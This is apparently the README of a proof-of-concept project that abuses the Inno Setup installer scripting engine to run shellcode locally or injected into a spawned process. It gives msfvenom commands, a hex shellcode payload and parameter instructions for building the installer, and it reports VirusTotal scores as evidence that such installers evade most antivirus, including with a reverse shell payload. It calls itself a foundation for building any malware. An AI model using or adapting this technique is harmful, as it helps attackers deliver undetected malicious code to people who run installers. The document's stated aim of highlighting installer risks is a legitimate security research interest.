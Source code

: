 # Inno Setup Execute Shellcode PoC

![Screenshot 2021-07-21 at 16.05.10.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.05.10.png)

This proof of concept illustrates how the Inno Setup Scripting Engine can be utilized to host a local or remote process shellcode payload and then execute it.

The motivation behind this concept is to highlight the potential risks associated with (self) installers. Not only can they harbor malicious programs, but they can also execute native code through their scripting engines. This method could potentially evade antivirus detections due to their seemingly benign nature.

The most challenging aspect of this project was understanding how to manipulate pointers and references. This example provides a foundation from which it is feasible to create any type of malware from scratch, including ones with increased complexity. Should you decide to experiment further, and encounter any technical queries, don't hesitate to ask for assistance.

## Parameters

The parameters can be found at the beginning of the InnoSetup Script File.

* **`SpawnNewProcess`:** (1|0): If this is set to `1`, the payload will be stored and executed from a newly spawned process (default: `notepad.exe`). If set to `0`, the payload will be stored and executed from the current InnoSetup Installer Process.
* **`SpawnProcessName`:** (STR): This parameter comes into play only if `SpawnNewProcess` is set to `1`. You can modify this value to spawn the process of your choice.
* **`verbose`:** `(1|0)`: Use this parameter to determine whether you want to generate debug messages (for example, from `DbgView`).
* **`Payload`:** (HEX_STR): This parameter is used to define the payload itself in hex format (aligned 2). If you're using `Msfvenom`, utilize the `-f hex` option.

## Example

Creating your own setup with a personalized payload is now straightforward.

Ensure that your shellcode is encoded in a hex string, and then replace the Payload parameter with your payload.

Here's an illustrative example using Msfvenom:

```bash
msfvenom -p <payload> -a x86 --platform Windows <parameters> EXITFUNC=thread -f hex
```

Example: 

```bash
msfvenom -p windows/exec -a x86 --platform Windows CMD=calc.exe EXITFUNC=thread -f hex
```

![Screenshot 2021-07-21 at 16.04.41.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.41.png)

```iss
#define Payload "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbe01d2a0a68a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"
```

![Screenshot 2021-07-21 at 16.04.04.png](https://www.phrozen.io/media/all/Screenshot_2021-07-21_at_16.04.04.png)

You can modify the other parameters as per your needs before building your setup application to appreciate the result.

Please note: If you are using the **`SpawnNewProcess`** parameter, it is highly recommended to use the `ExitProcess` **`EXITFUNC`** method to terminate the entire spawned process, as opposed to using `thread`.

## VirusTotal Score (20 JULY 2021)

https://www.virustotal.com/gui/file/697f7d55aa19e9dfaa5b86d8117c4f57adaba1ea252e008d7760e0a192515ac8/detection

The current detection rate stands at 3/69, which is mostly due to generic detection because of the file's reputation. Therefore, it's highly probable that the file is fully undetectable (FUD).

![Screenshot 2021-07-20 at 19.09.53.png](https://www.phrozen.io/media/all/Screenshot_2021-07-20_at_19.09.53.png)

## VirusTotal Score (UPDATE: 21 JULY 2021)

Below are the results of a setup scan using a reverse shell payload from `Msfvenom`, without any encoding schema applied:

https://www.virustotal.com/gui/file/2723ba8196721a3fd8b792b195dc20928d53d0e8b21c47da353b894cace847b9/detection

With a detection rate of 4 out of 69, it successfully evades the majority of commonly used antivirus software.
